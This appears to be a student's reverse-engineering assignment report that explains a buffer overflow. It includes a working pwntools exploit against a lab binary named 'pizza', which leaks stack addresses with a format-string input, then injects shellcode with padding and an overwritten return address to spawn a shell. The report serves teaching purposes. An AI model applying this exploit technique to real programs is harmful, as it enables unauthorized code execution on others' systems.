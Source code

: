 # Assignment 10 Report

## Assignment summary

This assignment is focused on understanding and exploiting a buffer overflow vulnerability in a provided program called "pizza". The goal is to write a Python script using the pwntools library to execute the program, leak the stack offset, and spawn a shell.
Steps:

1. Install the pwntools library and download the vulnerable "pizza" program.
2. Analyze the program's behavior, including crashing it and exploring format string vulnerabilities.
3. Create a pwntools script to run the program, cause a segmentation fault, and analyze the core dump.
4. Design the script to:
   
- Find the number of bytes before the return address on the stack.
- Inject padding bytes, a new return address, and shellcode into the buffer.
- Predict the address where the shellcode will be located and return to it.

Buffer Overflow definition:
A buffer overflow is a type of software vulnerability that occurs when a program writes more data to a buffer than the allocated space in memory can hold. This can lead to overwriting adjacent memory areas, including critical data structures like return addresses on the stack. Attackers can exploit this vulnerability by carefully crafting input data that overwrites the return address with a pointer to malicious code (shellcode), allowing them to hijack the program's control flow and execute arbitrary code with the same privileges as the vulnerable program. Buffer overflows have been a major security concern historically, as they provide a way for attackers to gain unauthorized access and control over systems.

## Program
```
from pwn import *

# Function to print stack elements around the stack pointer (RSP)
def print_stack(core, num):
    rsp = core.rsp
    print("---- STACK ----")

    # Print elements before RSP
    start_address = rsp - num * 8
    for addr in range(start_address, rsp, 8):
        val = core.read(addr, 8)  # Read 8 bytes of memory at address 'addr'
        print(f"0x{addr:016x}:   {str(val)}")  # Print address and its value

    # Print elements after RSP
    print(f"RSP -> 0x{rsp:016x}:   {str(core.read(rsp, 8))}")  # Print RSP and its value
    for addr in range(rsp + 8, rsp + (num + 1) * 8, 8):  # Iterate over addresses after RSP
        val = core.read(addr, 8)  # Read 8 bytes of memory at address 'addr'
        print(f"0x{addr:016x}:   {str(val)}")  # Print address and its value


# Load the ELF binary
elf = ELF("./pizza")

# Set up the context for the binary
context(arch='amd64', os='linux', endian='little', word_size=64)

# Generate shellcode for spawning a shell
shellcode = asm(shellcraft.amd64.linux.sh())

# Start the vulnerable program
victim = process("./pizza")

# Send input to trigger vulnerability and crash the program
input1 = b"%p %p %p %p %p %p %p %p %p"
victim.sendline(input1)  # Send the input

# Receive and print the response
print(str(victim.recvline(), "latin-1"))

# Receive and store the vulnerable address from the program's response
var = str(victim.recvline(), "latin-1")
print(var)

# Calculate the address to inject the shellcode
addr = int(var.split(" ")[7],16) - 112

# Craft the payload with shellcode and padding
input2 = shellcode + b"A" * 88 + addr.to_bytes(8, 'little')

# Send input to trigger the shellcode injection
var = str(victim.recvline(), "latin-1")
victim.sendline(b"4")
victim.sendline(input2)  # Send the payload

# Interact with the program to receive a shell
victim.interactive()

# Wait for the program to finish (not necessary after interactive)
victim.wait()

# core = victim.corefile
# print_stack(core, 100)

# Exit the script
exit()

```

## Screenshot
Testing print_stack function

![image](https://github.com/l3naz/CS479-579-Reverse-Engineering-Report/assets/122416778/1ccfb86b-05d0-4df7-a656-8376ce5366e6)

Testing Program

![image](https://github.com/l3naz/CS479-579-Reverse-Engineering-Report/assets/122416778/0a970008-03b2-4960-ad98-7d20acd05c11)


## Explain Program

- input1 = b"%p %p %p %p %p %p %p %p %p". Using format string to leak the addresses from the stack. This is a way to defeat the ASLR protection. The addresses will be printed back, and by knowing the stack layout, I can calculate the address of your shellcode which will be placed later in the stack.
- Find offset: letting the program crash by putting in the wrong address (print multiple letter 'A'), analyze corefiles and build a print_stack function to find out the address of the shellcode. Then subtract the leak address with the shellcode to find out the offset.
- Since we have the offset, we can finish the payload by adding up shellcode, padding and offset. input2 = shellcode + b"A"*88 + addr.to_bytes(8, 'little'). This input starts with your shellcode, followed by padding of 88 bytes, and finally the offset that we found. The padding is used to fill the buffer up to the point where the return address is stored.
- victim.interactive()  interactive mode with the victim process, allowing us to execute arbitrary commands via the shell that your shellcode spawned.

